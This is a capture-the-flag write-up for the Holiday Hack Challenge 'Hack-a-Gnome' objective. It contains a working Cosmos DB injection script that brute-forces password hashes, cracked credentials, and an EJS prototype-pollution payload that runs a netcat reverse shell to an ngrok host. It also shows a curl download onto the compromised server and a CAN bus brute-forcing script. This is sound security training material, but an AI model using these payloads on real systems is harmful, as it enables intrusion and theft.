

+++
date = '2025-12-23T15:59:59+01:00'
draft = true
title = 'Hack-a-Gnome'
weight = 2
+++


## Objective

| Difficulty | Description |
| ---------- | ----------- |
| 3/5 | Davis in the Data Center is fighting a gnome army—join the hack-a-gnome fun. |

## Chris Daves mission statement

> Hi, my name is Chris.
> 
> I like miniature war gaming and painting minis.
> 
> I enjoy open source projects and amateur robotics.
> 
> Hiking and kayaking are my favorite IRL activies.
> 
> I love single player video games with great stoylines.
> 
> ----
>
> Hey, I could really use another set of eyes on this gnome takeover situation.
> 
> Their systems have multiple layers of protection now - database authentication, web application vulnerabilities, and more!
> 
> But every system has weaknesses if you know where to look.
> 
> If these gnomes freeze the whole neighborhood, forget about hiking or kayaking—everything will be one giant ice rink. And trust me, miniature war gaming is a lot less fun when your paint freezes solid.
> 
> Ready to help me turn one of these rebellious bots against its own kind?

## Solution

This objective is hosted on https://hhc25-smartgnomehack-prod.holidayhackchallenge.com. Upon entering it I were presented with the following landingpage:


Not much information to begin with, but in tradition with other CTF's I started inspecting the sources. Early on I also retrieved all hints for this objective. These are included at the very end of this writeup.

### Inspecting SMART GNOME CONTROL source code

In the HTML source I found an interesting Javascript file: `https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/static/script.js`. By reading it I was able to uncover few interesting endpoints:

| Endpoint | Description |
| -------- | ----------- |
| /register | Endpoint for registering a new user | 
| /userAvailable?username= | In use to check wheter a username is available for registion upon creating a new user |

### Enumerating database

From the looks of it the only endpoint taking arguments is _/userAvailable_. By performing a standard test by supplying a single quotation mark I was able to trigger an error message that disclosed which database I were facing:

```bash
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username="

Output:

{"error":"An error occurred while checking username: Message: {\"errors\":[{\"severity\":\"Error\",\"location\":{\"start\":44,\"end\":45},\"code\":\"SC1012\",\"message\":\"Syntax error, invalid string literal token '\\\"'.\"}]}\r\nActivityId: fc87623e-4f9b-4d3d-9b18-f56fefa1b5d9, Microsoft.Azure.Documents.Common/2.14.0"}
```

The error message did not state it was Cosmos DB in cleartext - however I used ChatGPT to confirm it.

### Enumerating users

From the hints I now switched focus to enumerating users in order to log in. By looking at the output from the _/userAvailable_ this seemed like a trivial task, given that the endpoint happily returns boolean states. I decided on using _FFUF_ with a list of common names from Seclists:

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -u https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=FUZZ -X GET -fr "true"
```

Since the feedback from the enpoint basically states _available: true or false_, thus I added the `-fr` option to find users not available. The following users were identified:

* bruce 
* harold
 
### Finding passwords

I now had a list of users but no passwords. My next move was to find their passwords, but first I had some reading up to do on Cosmos DB. After reading some query examples on the Net, it became apparent that queries are written much like this example:

```sql
SELECT * FROM p WHERE p.something = something
```

The _FROM_ refers to a container or item alias and from the examples I found tends to be a single letter. Further, _Cosmos DB_ doesn't have a fixed schema, so fields can in reality be named whatever. Based on this I formed the following workflow: 

1. Identify what the container or item alias could be
2. Identify whcih fields were in use
3. Extract passwords

For this excercise I decided to leave FFUF be an move on to Python. Working with Python, or any programming languages, is worth gold in CTF's. By using scripts we can easily recreate our methodology consistently. The script is rather basic. It has three core functions: 

| Function | Description |
| -------- | ----------- |
| find_prefix | Identify the container or item alias by simply bruteforcing it using the alphabet (limited to one char as examples on the Net shows) |
| find_password_field | After findintg the contaier or item alias I use a wordlist containing Burp parameter names to uncover what the name of the password field is. I tried to use 'password' directly, but it didn't exist.|
| find_digest | With both the container or item alias, and the name of the 'password' field (digest), I bruteforce the password string using an recursive function looping over lower case letters, numbers and '-'|

The script looks like this: 

```python
import requests
import urllib.parse
import string
import sys
from pprint import pprint

#
# Helper function for injection
# 
def inject(base_url: str, payload: str) -> str:
    url = base_url + urllib.parse.quote_plus(payload)

    r = requests.get(url)
    
    return r.json()

#
# Map out prefix
#
def find_prefix(url, username):
    prefix_letter = None

    for prefix in string.ascii_letters:
        payload = f'{username}" AND IS_DEFINED({prefix}.username) --'
        result = inject(base_url, payload)

        if "error" in result.keys():
        	continue

        prefix_letter = prefix
        break

    return prefix_letter

# 
# Find password field name
#
def find_password_field(url, username, prefix):
	fields = []
	with open("burp-parameter-names.txt", "r") as f:
		for line in f.readlines():
			needle = line.strip("\n")
			payload = f'{username}" AND IS_DEFINED({prefix}.{needle}) --'
			result = inject(url, payload)

			if "error" in result.keys():
				continue

			if result.get("available") is False:
				fields.append(needle)

		return fields

#
# Find digest
# 
def find_digest(base_url, prefix, candidate="", username=""):
    for c in string.ascii_lowercase + string.digits + "-":
        if c in [":"]:
            continue

        p = candidate + c
        
        payload = f'{username}" AND STARTSWITH({prefix}.digest, "{p}") --'
        result = inject(base_url, payload)

        print(payload)
        if result["available"] is False:
            print(p)
            find_digest(base_url, prefix, p, username)
            break

#
# Main logic
#
base_url = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username="
prefix = find_prefix(base_url, "harold")
fields = find_password_field(base_url, "harold", prefix)

print("Prefix is: {prefix}")
print("Document fields is: ")
print("\n*".join(fields))

find_digest(base_url, prefix, "", "harold")
find_digest(base_url, prefix, "", "bruce")
```

The script uncovers the following: 

* The contaier or item alias is actually _c_
* The password field is named _digest_

By bruteforcing the _digest_ field I found these passwords:

| Username | Digest (MD5) | Decoded | 
| -------- | ------------ | ------- |
| bruce  | d0a9ba00f80cbc56584ef245ffc56b9e | oatmeal12 |
| harold | 07f456ae6a94cb68d740df548847f459 | oatmeal!! |

The digest (passwords) were stored as MD5 - these were easily decoded by looking them up on [Crackstation](https://crackstation.net).

### The control panel - endpoints

Upon logging in to the control panel I were presented with the following landingpage:


As usual I started with inspecting the HTML and Javascript source code to reveal the following endpoints: 

| Endpoint              | Description                                                                                                                                    |
| --------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- | 
| /home                 | Mainpage, contains two iframes, one for _Smart Gnome Statistics_ panel and _Gnome Control Interface_                                           |
| /stats                | _Smart Gnome Statistics_ panel                                                                                                                 |
| /control              |  _Gnome Control Interface_ - where the robot game plays out                                                                                    | 
| /register             | Endpoint for registering a new user                                                                                                            |
| /ctrlsignals?message= | This is used to communicate with backend, for instance updating the robot name. Takes an urlencoded JSON object as input to 'message' argument | 

### The control panel - exploitable vector

From the endpoints I saw that there was just one endpoint taking any form of input, _/ctrlsignals_. I knew from the hints that I were facing prototype poisoning, and this endpoint seemed to fit the bill. So the hunt began.

At first I figured out that if I sent a single apostrophe (_'_) I could make the system fail at the input parsing/decoding step: 

```text
SyntaxError: Unexpected token ' in JSON at position 0    at JSON.parse (<anonymous>)    at /app/server.js:121:33    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)    at next (/app/node_modules/express/lib/router/route.js:149:13)    at Route.dispatch (/app/node_modules/express/lib/router/route.js:119:3)    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)    at /app/node_modules/express/lib/router/index.js:284:15    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)    at next (/app/node_modules/express/lib/router/index.js:280:10)    at /app/server.js:49:9
```
From this I learned that I was dealing with _express.js_ and one common templating engine in use is _EJS_. I read up on various resources (included at end of writeup) on prototype posioning. Trying the payloads I found I provoked the following error message to confirm _\_\_proto\_\__ vulnerability:

```bash
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={"action":"update","key":"__proto__","subkey":"toString","value":"a"}

URL encoded version:

https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22:%22update%22,%22key%22:%22__proto__%22,%22subkey%22:%22toString%22,%22value%22:%22a%22%7D
```

By refreshing the __/stats__ page this error message manifested itself:

```text
TypeError: Object.prototype.toString.call is not a function
    at Object.isRegExp (/app/node_modules/qs/lib/utils.js:231:38)
    at normalizeParseOptions (/app/node_modules/qs/lib/parse.js:289:64)
    at module.exports [as parse] (/app/node_modules/qs/lib/parse.js:305:19)
    at parseExtendedQueryString (/app/node_modules/express/lib/utils.js:289:13)
    at query (/app/node_modules/express/lib/middleware/query.js:42:19)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at trim_prefix (/app/node_modules/express/lib/router/index.js:328:13)
    at /app/node_modules/express/lib/router/index.js:286:9
    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)
    at next (/app/node_modules/express/lib/router/index.js:280:10)
```

To further narrowing things down I tried to uncover the rendering engine:

```text
Payload

{
	"action": "update",
	"key":"__proto__",
	"subkey": "escapeFn",
	"value":"{\"view options\": {\"client\": 1, \"escapeFn\": \"process.mainModule.require('child_process').exec('ls', (_, stdout, stderr) => console.log(stdout || stderr));\"}}"
}

Error triggered:

TypeError: /app/views/stats.ejs:70
    68|                 <% gnomeStats.forEach(stat => { %>
    69|                     <tr>
 >> 70|                         <td class="key-cell"><%= stat.name %></td>
    71|                         <td class="value-cell"><%= stat.value %></td>
    72|                     </tr>
    73|                 <% }); %>

escapeFn is not a function
    at eval (/app/views/stats.ejs:15:16)
    at Array.forEach (<anonymous>)
    at eval (/app/views/stats.ejs:12:19)
    at stats (/app/node_modules/ejs/lib/ejs.js:691:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:272:36)
    at exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:489:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/app/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/app/node_modules/express/lib/response.js:1049:7)
```

From the error message the template engine is indeed _EJS_!

### The control panel - exploiting

Armed with the findings above and a whole slew of documentation, I decided to try to exploit the vulnerability. From the hints I knew I had to establish a reverse shell. Yet again, I turned to Python to ensure a reproducible methodology. This Python script turned out to be gold. I could easily tweak my payload, run the script and get the complete overview of output I needed. Gold, pure gold. 

The general worklow of the script is:

1. Login to the control panel
2. Trigger JSON parse error
3. Stages the payload. In this (final) version it pollutes \_\_proto\_\_ with a piece of code that connects back to my reverse shell
4. Triggers the reverse shell by visiting the _/stats endpoint_

```python
import requests
import json
import html
import urllib.parse
from bs4 import BeautifulSoup

#
# Login
# 
login_url = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/login?id=dfbd809f-8d6a-4500-87ba-c6e29b90f34c"
creds = { "username": "bruce", "password": "oatmeal12" }

s = requests.Session()
r = s.post(login_url, data=creds)

#
# Trigger JSON parse error
#

error_url = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message='"
payload_r = s.get(error_url)

print(f"URL: {payload_r.url}")

soup = BeautifulSoup(payload_r.text, "html.parser")
raw_text = soup.pre.get_text() 
decoded_text = html.unescape(raw_text)


print("\n===========================================")
print("Step 1. Provoke Error message")
print("===========================================\n")
print(decoded_text)

#
# Staging
#
print("\n===========================================")
print("Step 2. Staging")
print("===========================================")

for subkey in ["debug", "client"]:
    print(f"\n== Staging {subkey}\n")

    payload = {
        "action": "update",
        "key": "__proto__",
        "subkey": subkey,
        "value": 1
    }

    payload_encoded = urllib.parse.quote_plus(json.dumps(payload))
    proto_url = f"https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={payload_encoded}"
    payload_r = s.get(proto_url)
    print(f"URL: {payload_r.url}")
    print(payload_r.text)

print("\n===========================================")
print("Step 3. Weaponizing")
print("===========================================\n")

payload = {
    "action": "update",
    "key": "__proto__",
    "subkey": "escapeFunction",
    "value": "JSON.stringify; process.mainModule.require('child_process').exec('nc -e /bin/bash 4.tcp.eu.ngrok.io 19342;sleep 10000000')"
}


payload_encoded = urllib.parse.quote_plus(json.dumps(payload))
proto_url = f"https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={payload_encoded}"
payload_r = s.get(proto_url)
print(f"URL: {payload_r.url}")
print(payload_r.text)

#
# Smart Gnome Control Center - Smart Gnome Statistics panel
# 
print("\n===========================================")
print("Step 4. Stats page")
print("===========================================\n")

stats_panel_url = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
stats_r = s.get(stats_panel_url)
print(stats_r.text)
```

For each step I printed out the URL complete with the url encoded payload. This was done in order to reproduce the step in a browser to control the robot and thus completing the game. Below are the output from the script:

```text
===========================================
Step 1. Provoke Error message
===========================================

SyntaxError: Unexpected token ' in JSON at position 0    at JSON.parse (<anonymous>)    at /app/server.js:121:33    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)    at next (/app/node_modules/express/lib/router/route.js:149:13)    at Route.dispatch (/app/node_modules/express/lib/router/route.js:119:3)    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)    at /app/node_modules/express/lib/router/index.js:284:15    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)    at next (/app/node_modules/express/lib/router/index.js:280:10)    at /app/server.js:49:9

===========================================
Step 2. Staging
===========================================

== Staging debug

URL: https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A+%22update%22%2C+%22key%22%3A+%22__proto__%22%2C+%22subkey%22%3A+%22debug%22%2C+%22value%22%3A+1%7D
{"type":"message","data":"success","message":"Updated __proto__.debug to 1"}

== Staging client

URL: https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A+%22update%22%2C+%22key%22%3A+%22__proto__%22%2C+%22subkey%22%3A+%22client%22%2C+%22value%22%3A+1%7D
{"type":"message","data":"success","message":"Updated __proto__.client to 1"}

===========================================
Step 3. Weaponizing
===========================================

URL: https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A+%22update%22%2C+%22key%22%3A+%22__proto__%22%2C+%22subkey%22%3A+%22escapeFunction%22%2C+%22value%22%3A+%22JSON.stringify%3B+process.mainModule.require%28%27child_process%27%29.exec%28%27nc+-e+%2Fbin%2Fbash+4.tcp.eu.ngrok.io+19342%3Bsleep+10000000%27%29%22%7D
{"type":"message","data":"success","message":"Updated __proto__.escapeFunction to JSON.stringify; process.mainModule.require('child_process').exec('nc -e /bin/bash 4.tcp.eu.ngrok.io 19342;sleep 10000000')"}

===========================================
Step 4. Stats page
===========================================

... snip ...
```

In the initial development phase of my payload I made the server reach out to a [webhook.site](https://webhook.site/) page on the Internet. This provided an excellent way to verify that the server could reach the Internet. Once that was done I simply changed over to using an Ngrok infrastucture with a _netcat_ listener. 

### Setup attack infrastructure

As mentioned, my plan was to make the server connect back to me using a reverse shell. In order to do that I had to set up an infrastructure of

1. Reverse shell listener
2. Web server to deliver scripts and utilities

The infrastructure I landed up was based on [Ngrok](https://ngrok.com/) and Kali in WSL (in total four instances): 

| Command | Public | Description |
| ------- | ------ | -------|
| ngrok tcp 8501  | Yes | Public exposed reverse shell port through Ngrok |
| nc -lnvp 8501   | No  | Local (attacking machine) listening port using Netcat mapped to public Ngrok bridge |
| ngrok http 8001 | Yes | Public exposed web server for serving scripts |
| python3 -m http.server 8001 | No | Local (attacking machine) web server mapped to public Ngrok bridge |

The architecture ended up looking like this:



Regarding the HTTP server, this was merely used as a transport utility using _curl_ for transferring my scripts back and forth and related commands to this will not be covered in this writeup.

### The attack

After having set up the architecture and issued the payloads, the server called back and got myself a shell. I immediately started to have a look around:


A lot of junk, but the _canbus_client.py_ seemed relevant:


It truned out this was a script to interact with the CAN bus and contained a COMMAND_MAP with codes I recognized from the error messages for the bot in the Gnome Control Center. All of the mentioned codes were associated with errors, and the comment in code mentioned they were wrong. I then turned my attention to the _README.md_ file: 


A whole lot of text, but only the very last part was actually of interest. It basically stated the codes to move the robot was unknown at the moment. So - I needed to figure out these codes on my own. 

### Enumerating control codes

In order to find the correct control codes, I took basis in the Python script on the server, uploaded it to and asked ChatGPT to make it into a bruteforcing script. This script was then uploaded back onto the server using the command: 

```
curl -o cb.py  https://scarabaeiform-prolixly-odin.ngrok-free.dev/cb.py
```

I had to run this script in several iterations due to the amount of HEX codes involved. adjusting the HEX range for each run. For each iteration I kept an eye on the robot in _Gnome Control Interface_ for any movement. After some runs I had narrowed the codes down to the _0x200-0x206_ range. The script below is the final revision for that range: 

```python
#!/usr/bin/env python3
import time
import struct
import can

IFACE = "gcan0"

RPM_LEFT_ID  = 0x310
RPM_RIGHT_ID = 0x311

# LIMIT THE SEARCH RANGE HERE (end is exclusive)
SCAN_START = 0x200
SCAN_END   = 0x206   # includes 0x205

def int16_be(b: bytes) -> int:
    return struct.unpack(">h", b[:2])[0]

def read_rpm_snapshot(bus, window_s=0.20):
    end = time.time() + window_s
    left = right = None
    while time.time() < end:
        msg = bus.recv(timeout=0.02)
        if not msg:
            continue
        if msg.arbitration_id == RPM_LEFT_ID and len(msg.data) >= 2:
            left = int16_be(msg.data)
        elif msg.arbitration_id == RPM_RIGHT_ID and len(msg.data) >= 2:
            right = int16_be(msg.data)
    return left, right

def rpm_changed(before, after, threshold=30):
    if None in before or None in after:
        return False
    return abs(after[0] - before[0]) >= threshold or abs(after[1] - before[1]) >= threshold

def send_frame(bus, arb_id, data: bytes, extended=False):
    msg = can.Message(arbitration_id=arb_id, data=data, is_extended_id=extended)
    bus.send(msg)

def scan(bus, start, end, payloads, extended=False, rate_sleep=0.03, verbose_every=1):
    hits = []
    _ = read_rpm_snapshot(bus, 0.30)  # prime

    attempt = 0
    for arb_id in range(start, end):
        for data in payloads:
            attempt += 1
            if verbose_every and attempt % verbose_every == 0:
                # OUTPUT EXACTLY WHAT WE'RE TRYING
                print(f"TRY id=0x{arb_id:03X} dlc={len(data)} data={data.hex() or '(empty)'}")

            before = read_rpm_snapshot(bus, 0.12)
            try:
                send_frame(bus, arb_id, data, extended=extended)
            except can.CanError:
                continue
            after = read_rpm_snapshot(bus, 0.22)

            if rpm_changed(before, after):
                print(f"HIT id=0x{arb_id:03X} data={data.hex() or '(empty)'} RPM {before}->{after}")
                hits.append((arb_id, data, before, after))

            time.sleep(rate_sleep)
    return hits

def main():
    bus = can.interface.Bus(channel=IFACE, interface="socketcan", receive_own_messages=False)

    payloads = [
        b"",         # empty
        b"\x00",
        b"\x01",
        b"\xFF",
        b"\x00\x00",
        b"\x14\x14", # +20,+20
        b"\xEC\xEC", # -20,-20
        b"\xEC\x14", # left -, right +
        b"\x14\xEC", # left +, right -
    ]

    print(f"Scanning standard IDs 0x{SCAN_START:03X}-0x{SCAN_END-1:03X} ...")
    hits = scan(
        bus,
        start=SCAN_START,
        end=SCAN_END,
        payloads=payloads,
        extended=False,
        rate_sleep=0.03,
        verbose_every=1,   # set to e.g. 10 if too chatty
    )

    print(f"\nDone. Hits: {len(hits)}")
    for arb_id, data, before, after in hits[:50]:
        print(f"  0x{arb_id:03X} {data.hex() or '(empty)'} {before}->{after}")

    bus.shutdown()

if __name__ == "__main__":
    main()
```

I now had a manageable range. In order to make use of it, I downloaded the _canbus_client.py_ locally and entered my HEX codes in its _COMMAND\_MAP_ structure. Then reuploaded the script under a new name and ran it. It took some tries to get the mapping exactly right. In the end I ended up with this mapping that worked well: 

| Button | Canbus command id | New Value | 
| ------ | ----------------- | --------- |
| w | 0x656 | 0x201 |
| a | 0x658 | 0x203 |
| s | 0x657 | 0x202 |
| d | 0x659 | 0x204 |

In the final version I was able to navigate my robot through the maze using this command and directions:

```
python3 script_name <direction>
```

Leading me to solving the objective: 


## Chris Davis mission debrief

> Excellent work! You've successfully taken control of the gnome - look at that interface responding to our commands now.
>
> Time to turn this little rebel against its own manufacturing operation and shut them down for good!

### Hints 

| Hint | 
| ---- |
| Sometimes, client-side code can interfere with what you submit. Try proxying your requests through a tool like Burp Suite or OWASP ZAP. You might be able to trigger a revealing error message. |
| I actually helped design the software that controls the factory back when we used it to make toys. It's quite complex. After logging in, there is a front-end that proxies requests to two main components: a backend Statistics page, which uses a per-gnome container to render a template with your gnome's stats, and the UI, which connects to the camera feed and sends control signals to the factory, relaying them to your gnome (assuming the CAN bus controls are hooked up correctly). Be careful, the gnomes shutdown if you logout and also shutdown if they run out of their 2-hour battery life (which means you'd have to start all over again). |
| There might be a way to check if an attribute IS_DEFINED on a given entry. This could allow you to brute-force possible attribute names for the target user's entry, which stores their password hash. Depending on the hash type, it might already be cracked and available online where you could find an online cracking station to break it. |
| Once you determine the type of database the gnome control factory's login is using, look up its documentation on default document types and properties. This information could help you generate a list of common English first names to try in your attack. |
| Oh no, it sounds like the CAN bus controls are not sending the correct signals! If only there was a way to hack into your gnome's control stats/signal container to get command-line access to the smart-gnome. This would allow you to fix the signals and control the bot to shut down the factory. During my development of the robotic prototype, we found the factory's pollution to be undesirable, which is why we shut it down. If not updated since then, the gnome might be running on old and outdated packages. |
| Nice! Once you have command-line access to the gnome, you'll need to fix the signals in the canbus_client.py file so they match up correctly. After that, the signals you send through the web UI to the factory should properly control the smart-gnome. You could try sniffing CAN bus traffic, enumerating signals based on any documentation you find, or brute-forcing combinations until you discover the right signals to control the gnome from the web UI. |

## Resources

This objective required extensive reading up on the whole \_\_proto\_\_ attack vector. We found these resources of great value for our research:

* https://security.snyk.io/vuln/SNYK-JS-EJS-2803307
* https://blog.themikkel.dk/ddc-regionale-2025-writeup/
* https://blog.huli.tw/2023/06/22/en/ejs-render-vulnerability-ctf/
* https://www.nodejs-security.com/blog/understanding-and-preventing-prototype-pollution-in-nodejs
* https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce
* https://dev.to/boiledsteak/simple-remote-code-execution-on-ejs-web-applications-with-express-fileupload-3325
* https://medium.com/@albertoc_91016/prototype-pollution-in-open-source-libraries-exploiting-rce-in-ejs-ae93016630a3
* https://ejs.co/#docs